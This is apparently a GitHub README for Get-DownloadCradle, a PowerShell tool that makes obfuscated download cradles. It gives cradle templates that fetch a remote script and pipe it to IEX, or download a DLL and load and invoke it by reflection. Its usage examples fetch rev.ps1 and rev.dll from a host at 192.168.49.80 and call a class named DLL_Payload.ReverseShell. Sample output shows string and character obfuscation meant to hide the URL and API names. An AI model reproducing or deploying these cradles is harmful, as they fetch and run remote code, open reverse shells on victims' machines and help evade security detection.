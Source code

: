 # Obfuscated PowerShell Download Cradles

Get-DownloadCradle is a project that stems from the Invoke-PSObfuscation framework, with the sole purpose of producing obfuscated download cradles for PowerShell.

## Cradle Templates

This script includes templates for three PowerShell download cradles, namely `DownloadString`, `DownloadFile` and `DownloadData`. The resulting payloads are output as a one liner, but have been split below for readability. 

__DownloadString__

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadString("<DOWNLOADPATH>") | IEX
```
__DownloadFile__

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("<DOWNLOADPATH>","<LOCALPATH>")
$Assem = [System.Reflection.Assembly]::LoadFile("<LOCALPATH>")
$Class = $Assem.GetType("<CLASSNAME>")
$Method = $Class.GetMethod("<METHODNAME>")
$Method.Invoke(0,$null)
```

__DownloadData__

```powershell
$WebClient = New-Object System.Net.WebClient
$Data = $WebClient.DownloadData("<DOWNLOADPATH>")
$Assem = [System.Reflection.Assembly]::Load($Data)
$Class = $Assem.GetType("<CLASSNAME>")
$Method = $Class.GetMethod("<METHODNAME>")
$Method.Invoke(0,$null)
```

## Requirements

This script was built and tested on the following version Kali Linux and PowerShell. The obfuscated cradles are compatible on Windows systems that support PowerShell newer than version 2.0

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> $PSVersionTable

Name                           Value
----                           -----
PSVersion                      7.2.4
PSEdition                      Core
GitCommitId                    7.2.4
OS                             Linux 5.18.0-kali5-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali6 (2022-07-07)
Platform                       Unix
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0…}
PSRemotingProtocolVersion      2.3
SerializationVersion           1.1.0.1
WSManStackVersion              3.0
```

## Usage Examples

To load the script on Kali Linux, open a terminal then run `pwsh`. With PowerShell now running in your terminal, you can load the script into your current session by dot sourcing the script.

```shell
┌──(kali㉿kali)-[~]
└─$ pwsh
PowerShell 7.2.4
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

┌──(kali㉿kali)-[/home/kali]
└─PS> . ./Get-DownloadCradle.ps1
```

With the script loaded into our PowerShell session, we need to run the `Get-DownloadCradle` function and supply the cradle type and accompanying information to inject into the payload.

__DownloadString__

`Get-DownloadCradle -DownloadString -DownloadPath http://192.168.49.80/rev.ps1`

__DownloadFile__

`Get-DownloadCradle -DownloadFile -DownloadPath http://192.168.49.80/rev.dll -LocalPath C:\rev.dll -Class DLL_Payload.ReverseShell -Method runner`

__DownloadData__

`Get-DownloadCradle -DownloadData -DownloadPath http://192.168.49.80/rev.dll -Class DLL_Payload.ReverseShell -Method runner`

__Output to File__

`Get-DownloadCradle -DownloadData -DownloadPath http://192.168.49.80/rev.dll -Class DLL_Payload.ReverseShell -Method runner -OutFile obfuscated.ps1`

__Show Changes__

Where this script has been built from `Invoke-PSObfuscation`, we have the ability to target specific script components vs all of them at the same time. In addition to this, if we wanted to learn more about what was obfuscated, we can include the `ShowChanges` parameter. This will instruct the script to display each targeted component, the obfuscated value that will be replacing it and the generator value that was used. 

```shell
──(kali㉿kali)-[/home/kali]
└─PS> Get-DownloadCradle -DownloadData -DownloadPath http://192.168.49.80/rev.dll -Class DLL_Payload.ReverseShell -Method runner -ShowChanges

     >> Layer 0 Download Cradle
     >> https://github.com/gh0x0st

    Generator 2 >> http://192.168.49.80/rev.dll >> $([char](51+104-51)+[char](0+116-0)+[char](0+116-0)+[char](0+112-0)+[char](30+58-30)+[char](0+47-0)+[char](73*47/73)+[char](25*49/25)+[char](45+57-45)+[char](58+50-58)+[char](102+46-102)+[char](0+49-0)+[char](78*54/78)+[char](113*56/113)+[char](26*46/26)+[char](18*52/18)+[char](69*57/69)+[char](98*46/98)+[char](15*56/15)+[char](24*48/24)+[char](0+47-0)+[char](48+114-48)+[char](118*101/118)+[char](0+118-0)+[char](0+46-0)+[char](0+100-0)+[char](45*108/45)+[char](0+108-0))
    Generator 3 >> DLL_Payload.ReverseShell >> $($($('D'+'L'+'L'+'_'+'P'+'a'+'y'+'l'+'o'+'a'+'d'+'.'+'R'+'e'+'v'+'e'+'r'+'s'+'e'+'S'+'h'+'e'+'l'+'l')))
    Generator 3 >> runner >> ($($('r'+'u'+'n'+'n'+'e'+'r')))
    Generator 2 >> System.Net.WebClient >> $([char](0+83-0)+[char](76+121-76)+[char](118+115-118)+[char](98+116-98)+[char](91*101/91)+[char](2*109/2)+[char](105*46/105)+[char](0+78-0)+[char](51*101/51)+[char](0+116-0)+[char](23+46-23)+[char](0+87-0)+[char](0+101-0)+[char](0+98-0)+[char](111+67-111)+[char](54*108/54)+[char](0+105-0)+[char](52+101-52)+[char](42*110/42)+[char](0+116-0))
    Generator 2 >> New-Object >> & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_})
    Generator 5 >> | >> |<##>%{$_}|
    Generator 11 >> | >> |ForEach-Object{$_}|ForEach-Object{$_}|
    Generator 2 >> $WebClient >> $rOG6V9jBlcgSL3DnfKy1vs
    Generator 3 >> $Data >> $MH6VTazWPsQbu8z
    Generator 3 >> $Assem >> $SIsYjqGeX8bayA2nuPRC
    Generator 3 >> $Class >> $fD
    Generator 2 >> $Method >> $5osQqa0YTMZIUt6Vu9D
```
